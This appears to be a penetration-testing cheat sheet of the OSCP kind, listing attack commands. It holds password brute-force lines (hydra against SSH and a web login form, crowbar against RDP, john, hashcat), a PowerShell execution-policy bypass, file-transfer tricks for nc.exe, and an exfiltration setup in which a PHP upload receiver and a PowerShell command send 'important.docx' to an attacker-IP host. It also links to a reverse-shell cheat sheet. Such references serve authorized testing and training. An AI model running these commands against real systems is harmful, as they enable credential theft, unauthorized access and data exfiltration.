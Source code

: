 # https://passwordrecovery.io/
# http://cracker.offensive-security.com/
hydra -l <USER> -P /usr/share/wordlists/wfuzz/others/common_pass.txt ssh://<IP>
crowbar -b rdp -s <IP>/32 -u <USER> -C rockyou.txt -n 4
crowbar -b rdp -s 10.11.1.220/32 -U ./users.txt -C ./pass.txt -n 1
sudo john --wordlist=rockyou.txt --format=raw-sha1 hash.txt
hydra 10.11.1.39 http-form-post "/otrs/index.pl:User=root@localhost&Password=^PASS^:Login failed! Your user name or password was entered incorrectly." -l root@localhost -P wordlist.txt -vV -f
patator <module> (older unreliable services - telnet for example)
https://hashcat.net/wiki/doku.php?id=example_hashes -> hashcat64.exe -m <module> -a 0 hashes.txt crackstation.txt 

// SEARCHSPLOIT
searchsploit -t <SERVICE> | grep -v '/dos/'

// REFERENCES & CHEATSHEETS
https://medium.com/oscp-cheatsheet/oscp-cheatsheet-6c80b9fa8d7e
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

##########################################################################
##					INFRASTRUCTURE & CONFIGURATION						##
##########################################################################
// MOUNT VMWARE SHARE
sudo vmhgfs-fuse .host:/vmshare /mnt/vmshare -o allow_other

// WINDOWS COMMANDS & SETUP
# PowerShell Script Execution
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
Get-ExecutionPolicy -Scope CurrentUser
Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser

// FILE TRANSFER - HTTP SERVER SETUP
python -m SimpleHTTPServer 80
python3 -m http.server 80
php -S 0.0.0.0:80
ruby -run -e httpd . -p 80
busybox httpd -f -o 80

// FILE TRANSFER - COMMANDLINE
# Convert binary to hex and send via commandline connection (e.g., nc, telnet, etc)
upx -9 nc.exe
exe2hex -x nc.exe -p nc.cmd

// FILE TRANSFER - HTTP POST EXFIL (WINDOWS->KALI)
# upload.php: Upload Data to Attack Box via HTTP POST Request
<?php $uploaddir='/var/www/uploads/'; $uploadfile=$uploaddir . $_FILES['file']['name']; move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)?>
powershell (New-Object System.Net.WebClient).UploadFile('http://<ATTACKER-IP>:<PORT>/upload.php', 'important.docx')
